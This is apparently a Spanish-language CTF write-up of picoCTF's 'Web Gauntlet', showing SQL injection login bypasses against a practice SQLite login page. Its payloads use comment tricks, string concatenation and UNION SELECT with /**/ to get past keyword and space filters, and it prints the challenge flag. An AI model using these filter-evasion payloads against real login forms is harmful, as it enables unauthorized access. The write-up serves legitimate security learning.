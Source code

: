 ```yaml
---
layout: post
title: picoCTF web gauntlet - sql injection y evadiendo filtros
author: c4rta
date: 2023-01-04
categories: [Desafios Web]
tags: [SQL injection]
description: >
    En este desafio hay que evadir un par de filtros para conseguir la flag
image: 
  path: /assets/img/web-gaunlet/waifu.jpg
---
```


{:.lead}

Para este desafio tenemos que hacer bypass de varios filtros usando sql injection, el SGBD es sqlite y el usuario para todos los casos es ```admin```

```http://jupiter.challenges.picoctf.org:41560/``` --> Pagina vulnerable

```http://jupiter.challenges.picoctf.org:41560/filter.php``` --> Filtro de cada round

## Round 1

El primer filtro de debemos de evadir es ```or```, al llenar los campos y presionar en ```sign in``` vemos como nos muestra la consulta, la cual es:

```SELECT * FROM users WHERE username='admin' AND password='admin'```


Aun que no hayamos conseguido iniciar, podemos ver que se esta usando el operador ```AND```, y ```AND``` permite usar multiples condiciones en un ```WHERE```, al usar ```AND```, se asume que que toda la condicion es verdadera, cuando cada condicion sea verdadera.

Ademas debemos de evadir ```OR```, que lo que hace es combinar varias condiciones en un ```WHERE```, y al usarlo se asume que la condicion completa es verdadera cuando cualquiera de las condiciones sea verdadera.

Asi que como sabemos que el usuario debe ser ```admin```, lo que podemos hacer es escapar la consulta desde el ```AND``` para que toda la condicion sea verdadera y asi se cumpliria la condicion ```AND``` ya que ahora la contraseña es igual a lo que le pasemos como input, ```0R``` ya que esta cumpliendo una condicion que es que el usuario sea ```admin``` y ademas omitimos la contraseña, esto lo hacemos comentando desde ```AND```, y queda algo asi:

usuario: ```admin'--```
contra: --> esto puede ser lo que sea


### Round 2

En este round no podemos usar ```OR``` y ```--```, pero realmente es lo mismo que el anterior, ya que en sqlite hay dos tipos de comentario, uno es ```--``` y otro es ```/*``` (la explicacion es la misma).

usuario: ```admin' /*```

Y otra manera de solucionarlo es acortar la consulta, esto para que solo haya una condicion, es decir que el usuario sea admin, la consulta queda asi

```SELECT * FROM users WHERE username='admin';```

Y el input queda asi:

usuario: ```admin;```


### Round 3

Ahora no podemos usar ```OR```, espacios y ```--```, pero esto no importa ya que aun podemos acortar la consulta como en el round pasado y todo queda igual, asi:

```SELECT * FROM users WHERE username='admin';```

El input queda asi:

usuario: ```admin';```

## Round 4

Ahora no podemos usar ```OR```, espacios, ```--``` y la palabra ```admin```.

La manera mas evidente de resolverlo es separar la palabra admin y luego concaternarla, esto lo podemos hacer con ```||``` y luego comentar todo lo demas, de esta manera:

```SELECT * FROM users WHERE username='adm'||'in'/*```

Y como input le podemos pasar esto

```adm'||'in'/*```

Otra manera de resolverlo es usando el operador ```UNION``` y la consulta quedaria algo asi:

```SELECT * FROM users WHERE username='c4rta'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;```

Esto hace dos consultas, la primera es:

```SELECT * FROM users WHERE username='c4rta'```

Y la segunda:

```SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;```

```UNION``` combina los SELECT, ```/**/``` entre todas las palabras representan los espacios en blanco. Y tenemos que incluir la parte LIMIT 1 porque generalmente en una base de datos, el administrador es la primera entrada de la tabla y con esta consulta, simplemente recuperamos la primera línea, que en este caso es el administrador, entonces nuestro input queda:


usuario: ```c4rta'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;```

## Round 5

Aun que ahora ya no podemos usar el ```UNION``` y todos los demas filtros anteriores, podemos separar la palabra ```admin``` y luego concatenarla, osea que podemos usar uno de los payloads de round 4 y entonces queda asi:

usuario: ```adm'||'in'/*```

Y la flag es: ```picoCTF{y0u_m4d3_1t_275cea1159781d5b3ef3f57e70be664a}```

Eso ha sido todo, gracias por leer ❤

